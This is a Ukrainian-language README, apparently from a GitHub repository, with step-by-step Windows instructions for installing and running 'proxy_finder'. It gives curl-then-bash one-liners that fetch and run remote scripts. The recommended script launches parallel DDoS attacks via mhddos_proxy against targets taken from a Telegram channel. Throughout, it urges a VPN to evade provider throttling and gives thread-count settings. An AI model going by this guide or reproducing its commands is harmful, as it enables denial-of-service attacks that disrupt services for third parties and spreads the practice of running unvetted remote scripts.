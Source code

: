 # Інструкції встановлення proxy_finder на Windows

Тестував лише на Windows 10  
  
**УСІ ПУНКТИ ОБОВ'ЯЗКОВІ**

❗️Треба встановити супер-швидкий та стабільний VPN, щоб ваш провайдер не різав трафік через підключення до багатьох ІР(проксі):
https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23

Якщо ви будете без ВПН, то у вас взагалі може попасти інтернет на роутері, як було у мене, бо провайдери не полюбляють коли з їх ІР йде трафік на велику кількість інших ІР(проксі)

Інші ВПН теж можуть не підійти, бо вони можуть відключатися 

1. [**Встановлення Python3**](https://github.com/porthole-ascend-cinnamon/proxy_finder/blob/main/instructions/Windows.md#1-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F-python3)  
2. [**Встановлення Git**](https://github.com/porthole-ascend-cinnamon/proxy_finder/blob/main/instructions/Windows.md#2-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F-git)  
3. [**Запуск пошуку**](https://github.com/porthole-ascend-cinnamon/proxy_finder/blob/main/instructions/Windows.md#3-%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%BF%D0%BE%D1%88%D1%83%D0%BA%D1%83)  
3.1 [**Запуск напряму через Термінал**](https://github.com/porthole-ascend-cinnamon/proxy_finder/blob/main/instructions/Windows.md#31-%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%BD%D0%B0%D0%BF%D1%80%D1%8F%D0%BC%D1%83-%D1%87%D0%B5%D1%80%D0%B5%D0%B7-%D1%82%D0%B5%D1%80%D0%BC%D1%96%D0%BD%D0%B0%D0%BB)  
3.2 [**Запуск за допомогою авто-оновлюваного bash-скрипта, який сам завантажить усі необхідні файли, та самостійно буде завантажувати оновлення**](https://github.com/porthole-ascend-cinnamon/proxy_finder/blob/main/instructions/Windows.md#32-%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%B7%D0%B0-%D0%B4%D0%BE%D0%BF%D0%BE%D0%BC%D0%BE%D0%B3%D0%BE%D1%8E-%D0%B0%D0%B2%D1%82%D0%BE-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D1%8E%D0%B2%D0%B0%D0%BD%D0%BE%D0%B3%D0%BE-bash-%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D0%B0-%D1%8F%D0%BA%D0%B8%D0%B9-%D1%81%D0%B0%D0%BC-%D0%B7%D0%B0%D0%B2%D0%B0%D0%BD%D1%82%D0%B0%D0%B6%D0%B8%D1%82%D1%8C-%D1%83%D1%81%D1%96-%D0%BD%D0%B5%D0%BE%D0%B1%D1%85%D1%96%D0%B4%D0%BD%D1%96-%D1%84%D0%B0%D0%B9%D0%BB%D0%B8-%D1%82%D0%B0-%D1%81%D0%B0%D0%BC%D0%BE%D1%81%D1%82%D1%96%D0%B9%D0%BD%D0%BE-%D0%B1%D1%83%D0%B4%D0%B5-%D0%B7%D0%B0%D0%B2%D0%B0%D0%BD%D1%82%D0%B0%D0%B6%D1%83%D0%B2%D0%B0%D1%82%D0%B8-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
3.3 [**Найкращий спосіб все-в-одному - авто-оновлювані mhddos_proxy та proxy_finder в одному скрипті**](https://github.com/porthole-ascend-cinnamon/proxy_finder/blob/main/instructions/Windows.md#33-%D0%BD%D0%B0%D0%B9%D0%BA%D1%80%D0%B0%D1%89%D0%B8%D0%B9-%D1%81%D0%BF%D0%BE%D1%81%D1%96%D0%B1-%D0%B2%D1%81%D0%B5-%D0%B2-%D0%BE%D0%B4%D0%BD%D0%BE%D0%BC%D1%83---%D0%B0%D0%B2%D1%82%D0%BE-%D0%BE%D0%BD%D0%BE%D0%B2%D0%BB%D1%8E%D0%B2%D0%B0%D0%BD%D1%96-mhddos_proxy-%D1%82%D0%B0-proxy_finder-%D0%B2-%D0%BE%D0%B4%D0%BD%D0%BE%D0%BC%D1%83-%D1%81%D0%BA%D1%80%D0%B8%D0%BF%D1%82%D1%96)  

Якщо виникли будь-які проблеми на будь-якому етапі пишіть в телеграм: @brainqdead  

## 1. Встановлення Python3
Спосіб 1:  
Заходимо в cmd (Командная строка)
![image](https://user-images.githubusercontent.com/74729549/167741362-be1ec067-bd71-45b3-9264-5baeba0e844b.png)  

-> Прописуємо python3
![image](https://user-images.githubusercontent.com/74729549/167741398-9439e1b7-bffe-4964-bb70-91a5b4b83ba5.png)  


 -> натискаємо Enter  
Якщо у вас досі немає python3, то Вас перекине до Microsoft store, там натискаєте Отримати / Получить / Get  

Якщо він у вас вже є / ви успішно його отримали то буде ось так: 
![image](https://user-images.githubusercontent.com/74729549/167741390-8f4ef0b7-f958-4ed1-be40-5877a2f0865d.png)  

Після отримання python3 закриваєме це вікно терміналу (командої строки)  

***Якщо через cmd (Командую строку) не вийшло - пробуйте зайти самостійно у Microsoft Store та знайти і встановити там Python3.10***  

!!!ТІЛЬКИ ЯКЩО З ПОПЕРЕДНІМ СПОСОБОМ НЕ ВИЙШЛО:!!!
Спосіб 2(може успішно скачатися, але потім не запуститься атака):  
скачуємо python: https://www.python.org  
![image](https://user-images.githubusercontent.com/74729549/167923835-34d51062-369a-4beb-bdb1-88b3581091d7.png)  
Запускаєте скачаний файл(Саме у такому порядку 1-ИЙ ПУНКТ НАЙВАЖЛИВІШИЙ)  
![image](https://user-images.githubusercontent.com/74729549/167923871-1d6b2387-d248-47c5-ad38-c688e952f986.png)  
Далі усе за замовчуванням скрізь клікаєте Далее / Да  

## 2. Встановлення Git

Для початку потрібно ще встановити Notepad++ (зручний редактор коду, він вам згодиться і після нашої перемоги у війні): https://notepad-plus-plus.org/downloads/v8.2.1/    

Коли скачали, запустили установщик та встановили Notepad++ переходимо до наступних пунктів  


Скачуємо установщик git https://gitforwindows.org (ця сама силка на оф. сайті github: https://github.com/git-guides/install-git#install-git-on-windows)  
![image](https://user-images.githubusercontent.com/74729549/167741764-3660a1e0-a79b-4460-aae9-28309ce97c9b.png)
Чекаємо поки скачається, потім запускаємо скачаний файл  

**ВСТАНОВЛЮВАТИ ТРЕБА САМЕ ТАК:**  
![image](https://user-images.githubusercontent.com/74729549/167741828-a3e1c5aa-a3fb-4d95-8705-778a99bda68b.png)  
*Зі списку обрати саме Notepad++ (який ви мали скачати раніше, якщо ні, то закривайте та скачуйте, потім відкривайте Setup файл ще раз)*  
![image](https://user-images.githubusercontent.com/74729549/167741841-b6ceb31a-ded8-41b2-be9c-cab1846791d9.png)  
![image](https://user-images.githubusercontent.com/74729549/167741883-62ecddc4-fffd-405d-a682-a06d6f1edac5.png)  
![image](https://user-images.githubusercontent.com/74729549/167741889-d160c8d2-420a-47bf-987a-9235595ee5b5.png)  
![image](https://user-images.githubusercontent.com/74729549/167741908-cc985a8d-d466-4154-9734-2c9ed1ed50fe.png)  
![image](https://user-images.githubusercontent.com/74729549/167741917-fbc39aed-f3d4-4353-9cea-2fcee1661d8a.png)  
![image](https://user-images.githubusercontent.com/74729549/167741931-ad1cf34c-e49c-41d8-8eb3-8d4119339860.png)  
**Наступний пункт дуже важливий**  
![image](https://user-images.githubusercontent.com/74729549/167741966-7c035bac-9276-42db-ac09-a2957d402f69.png)  
![image](https://user-images.githubusercontent.com/74729549/167741976-48a7e397-f977-42ec-9292-29801708c865.png)  
![image](https://user-images.githubusercontent.com/74729549/167741988-eef8bbf5-6b6c-42cb-971e-4c5b124658cb.png)  
![image](https://user-images.githubusercontent.com/74729549/167741994-93162b55-1931-40e3-82f6-e4a0c768cd9d.png)  
![image](https://user-images.githubusercontent.com/74729549/167742004-c0eaab28-9d27-4f31-9325-9c7d76b2c014.png)  
![image](https://user-images.githubusercontent.com/74729549/167742017-25f7d530-593f-41bf-a226-e5948151a9a1.png)  
Встановлення завершено - натискаємо Finish  

## 3. Запуск пошуку
Надалі після успішного встановлення Python3 та Git потрібно буде кожен день виконувати лише один з наступних пунктів:  
### 3.1 Запуск напряму через Термінал
#### 3.1.1 Встановлення самої програми через Термінал(робимо лише один раз):
Відкриваємо Мой компьютер / Этот компьютер:  
![image](https://user-images.githubusercontent.com/74729549/167746227-6192c1d6-f895-4b01-98fc-98ddf9378fdb.png)  
Шукаємо папку робочого столу:  
![image](https://user-images.githubusercontent.com/74729549/167746244-f3b98d9d-bf07-46a3-8d31-77b9bb400301.png)  
Заходимо у папку Робочого столу:  
![image](https://user-images.githubusercontent.com/74729549/167746271-fbd5b687-1a03-4b21-a016-4593f4fdba56.png)
Та у виділеній області прописуємо три літери `cmd`:  
![image](https://user-images.githubusercontent.com/74729549/167746307-ec4a0331-2536-4015-ba44-bd52e420c7ab.png)  
Та натискаємо Enter - відкриється вікно Терміналу:  
![image](https://user-images.githubusercontent.com/74729549/167746342-a45fb92d-d051-4029-b1f9-61d785f40874.png)
Далі прописуємо наступні команди(та натискаємо Enter), щоб скачати програму та зайти в її папку:  
```shell
git clone https://github.com/porthole-ascend-cinnamon/proxy_finder
cd proxy_finder
```
*можливе таке повідомлення: `fatal: destination path 'proxy_finder' already exists and is not an empty directory.` - це означає, що потрібна папка вже існує - просто йдіть далі по інструкції до пункту 3.1.2 Запуск пошуку проксі*

Повинно вийти ось так:  
![image](https://user-images.githubusercontent.com/74729549/167746721-eb3d9ea7-d7cb-4b7d-a6a4-ed2e125c9411.png)  
#### 3.1.2 Запуск пошуку проксі через Термінал(робимо кожен раз при рестарті машини / пошуку):
Вже у відкритому вікні з минилого пункту вводимо наступні команди:  
щоб мати завжди останню версію:  
```shell
git pull origin main
```
щоб мати завжди останні залежності(без яких пошук не запуститься):  
```shell
python -m pip install -r requirements.txt
```
Має вийти приблизно ось так(у вас може бути трохи інакше, бо завантажаться нові файли / залежності):   
![image](https://user-images.githubusercontent.com/74729549/167747452-0ec0642e-c672-4d2e-b264-330d87969e82.png)
Тепер можемо запускати пошук проксі (але бажано з під [VPN](https://auto-ddos.notion.site/VPN-effde85923534cf7b4caa198a0ef0d23)): 
```shell
python finder.py
```
Вітаю, пошук успішно почався:  
![image](https://user-images.githubusercontent.com/74729549/167747693-c4e731fe-cff9-4c0e-87ac-914a8f34910a.png)  

Також ви можете змінювати кількість потоків (замість 5000, що обираються за замовчуванням), але я б не рекомендував це робити(тим паче якщо у вас паралельно запущенно DDoS, бо можуть початися лаги (буде все тормозити), змінювати ось так:  
```shell
python finder.py --threads 10000
```
де 10000 можна замінити на будь-яке значення від 1 до 15000, але **ми рекомендуємо саме 5000, які стоять за замовчуванням**  

### 3.2 Запуск за допомогою авто-оновлюваного bash-скрипта, який сам завантажить усі необхідні файли, та самостійно буде завантажувати оновлення
Вікриваємо скачаний раніше(у пункті 2) Git Bash:  
![image](https://user-images.githubusercontent.com/74729549/167748665-d102dc65-08a3-4262-897f-a1c70ed729bc.png)  
або шукайте його на Робочому столі  
та вводимо наступне:
```shell
curl -LO https://raw.githubusercontent.com/porthole-ascend-cinnamon/proxy_finder/main/auto_runner_windows.sh && bash auto_runner_windows.sh 5000
```
де 5000 можна замінити на будь-яке значення від 1 до 15000, але **ми рекомендуємо саме 5000, які стоять за замовчуванням**  

### 3.3 Найкращий спосіб все-в-одному - авто-оновлювані mhddos_proxy та proxy_finder в одному скрипті
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 1 1500 1000
```
Більш детально про всі параметри можна почитати тут: https://github.com/alexnest-ua/runner_for_windows - цей скрипт дозволяє запустити декілька паралельних DDoS-атак через вбудований mhddos_proxy та має вже вбудований proxy_finder, який ще й автоматично оновлює не лише себе, а й mhddos_proxy та proxy_finder, та бере актуальні цілі звідси: https://t.me/ddos_separ  
Тому можете тут https://github.com/alexnest-ua/runner_for_windows обирати параметри під свій ПК - запускати атаку та йти займатися своїми справами, а скрипт зробить все за вас 
